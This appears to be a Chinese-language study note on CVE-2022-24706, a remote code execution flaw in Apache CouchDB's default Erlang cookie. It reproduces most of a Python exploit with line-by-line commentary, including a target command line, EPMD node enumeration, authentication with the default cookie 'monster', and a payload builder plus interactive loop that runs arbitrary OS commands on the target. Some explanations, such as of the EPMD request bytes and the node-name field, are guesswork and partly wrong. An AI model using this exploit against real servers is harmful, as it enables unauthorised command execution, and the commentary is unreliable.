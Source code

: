 # 代码执行\_CouchDB_CVE-2022-24706

- [知识星球](https://wx.zsxq.com/dweb2/index/search/CVE-2022-24706)
- [CVE-2022-24706 Apache couchdb 默认 erlang-cookie 的 RCE 漏洞分析](https://zgao.top/cve-2022-24706-apache-couchdb-%E9%BB%98%E8%AE%A4erlang-cookie%E7%9A%84rce%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [exploit-db](https://www.exploit-db.com/exploits/50914)
- [cxsecurity](https://cxsecurity.com/issue/WLB-2022110003)
- [CNNVD](https://www.cnnvd.org.cn/home/globalSearch?keyword=CVE-2022-24706)

```python
python poc2.py 192.168.1.215 4369
```

当阅读并理解这段代码时，我们可以逐行分析它的各个部分：

```python
import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list
```

这部分是引入所需的库和模块，以及设置一些常量和变量。例如，TARGET 是目标主机的 IP 地址或域名，EPMD_PORT 是 Erlang 分布式端口(默认为 4369) ，COOKIE 是用于身份验证的 Erlang Cookie，EPM_NAME_CMD 是请求获取节点列表的命令。


```python
# Connect to EPMD:

try:
epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
print("Couldnt connect to EPMD: %s\n terminating program" % msg)
sys.exit(1)

epm_socket.send(EPM_NAME_CMD) # request Erlang nodes
if epm_socket.recv(4) == b"\x00\x00\x11\x11": # OK
data = epm_socket.recv(1024)
data = data[0 : len(data) - 1].decode("ascii")
data = data.split("\n")
if len(data) == 1:
choise = 1
print("Found " + data[0])
else:
print("\nMore than one node found, choose which one to use:")
line_number = 0
for line in data:
line_number += 1
print(" %d) %s" % (line_number, line))
choise = int(input("\n> "))

    ERLNAG_PORT = int(re.search("\d+$", data[choise - 1])[0])

else:
print("Node list request error, exiting")
sys.exit(1)
epm_socket.close()
```

这部分代码尝试连接到 EPMD(Erlang Port Mapper Daemon) ，然后发送获取节点列表的命令。如果连接成功，它会接收和解析服务器的响应以获得节点列表。然后，它会要求用户选择一个节点以连接。最后，它会关闭与 EPMD 的连接。


```python
# Connect to Erlang port:

try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
sys.exit(1)

s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024) # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]
```

这部分代码与所选的 Erlang 节点建立连接，并发送名称消息以获取服务器返回的挑战数据。

```python
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"

# ...

CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii") + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)
```

这部分代码构造响应消息，将鉴权 Cookie 和挑战的哈希值发送回服务器。服务器将根据该信息验证客户端身份。

```python
data_size = 0
while True:
if data_size <= 0:
CMD = input("> ")
if not CMD:
continue
elif CMD == "exit":
sys.exit(0)
s.send(compile_cmd(CMD))
data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
s.recv(45) # Control message
data_size -= 45 # Data size without control message
time.sleep(0.1)
elif data_size < 1024:
data = s.recv(data_size)
time.sleep(0.1)
print(data[3:].decode())
data_size = 0
else:
data = s.recv(1024)
time.sleep(0.1)
print(data[4:].decode())
data_size -= 1024
```

最后，这部分代码包含一个循环，允许用户输入命令以远程执行。如果命令为空或为 "exit"，程序将退出。否则，它将使用 compile_cmd 函数编码命令，并发送给目标主机。接收到的数据将根据其大小分批处理和打印。

总之，这段代码利用 Erlang Distribution Protocol 漏洞，通过与一个运行 Erlang 节点的目标主机进行通信，实现远程执行命令的能力。它包括与 EPMD 和 Erlang 节点的连接、发送和接收数据以及命令执行等步骤。


---

```python
EPM_NAME_CMD = b"\x00\x01\x6e"  # Request for nodes list 
```

在 Erlang 语言中，节点之间的通信是通过 Erlang Distribution Protocol 进行的。Erlang Port Mapper Daemon(EPMD) 是一个管理 Erlang 节点之间通信的进程，它会维护节点列表，并能够为连接到它的节点提供其他节点的信息。

在 Erlang Distribution Protocol 中，用于获取节点列表的请求命令的格式是一个字节序列，而 EPM_NAME_CMD 就是这个请求命令。这个命令的构成是：

b"\x00\x01"：这是一个 2 字节的命令标识，表示请求获取节点列表。
b"\x6e"：这是一个字节，表示要获取的节点列表的类型。
通过将这个请求命令发送给 EPMD，可以请求它返回当前连接到 EPMD 的节点列表。在这个代码中，EPM_NAME_CMD 是用于请求获取节点列表的命令，程序会将这个命令发送给 EPMD，然后解析 EPMD 返回的节点列表，以便用户选择要与之通信的节点。

---

```python
def compile_cmd(CMD):
    MSG = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, "ascii")
    MSG += b"jw\x04user"
    PAYLOAD = b"\x70" + CTRL_DATA + MSG
    PAYLOAD = struct.pack("!I", len(PAYLOAD)) + PAYLOAD
    return PAYLOAD
```

这个函数 compile_cmd(CMD) 的作用是构建用于远程执行命令的 Payload(有效负载) 。


```python
def compile_cmd(CMD):
    MSG = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
```

这一部分定义了一个字节序列 MSG，看起来像是一些二进制指令。这些指令构成了一个 Erlang 的消息，用于与远程 Erlang 节点通信。

```python
    MSG += struct.pack(">H", len(CMD))
```

这一行将要执行的命令的长度转换成一个二进制数据，并将它添加到 MSG 中。这是为了告诉远程 Erlang 节点要执行的命令的长度。

```python
    MSG += bytes(CMD, "ascii")
```
这一行将要执行的命令(CMD 参数) 转换成一个字节序列，并将它添加到 MSG 中。这是要执行的真正的命令内容。

```python
    MSG += b"jw\x04user"
```

这一行添加了一些后续的字节，看起来是消息的结束标志。

```python
    PAYLOAD = b"\x70" + CTRL_DATA + MSG
    PAYLOAD = struct.pack("!I", len(PAYLOAD)) + PAYLOAD
```

这一部分将之前构建的 MSG 添加到了另一个字节序列 PAYLOAD 中，前面添加了一个标识字节 \x70 和之前定义的 CTRL_DATA。然后，PAYLOAD 的长度被转换成一个二进制数据，添加到 PAYLOAD 的前面，用来告诉远程节点整个负载的长度。

```python
    return PAYLOAD
```

最后，函数返回构建好的负载，这个负载包含了要执行的命令和其他一些信息，可以通过网络发送给远程 Erlang 节点，用于触发远程命令的执行。

---

在代码中的 AAAAAA@AAAAAAA 实际上是一个占位符，这个占位符的作用是预留位置来填充其他数据。这种占位符在许多编程场景中都会使用，用于在代码中暂时放置数据的位置，稍后再用真实的数据来替换它们。在这个特定的代码中，AAAAAA@AAAAAAA 很可能是一个预留的标记，用于将来可能添加的一些具体数据或标识信息。

---



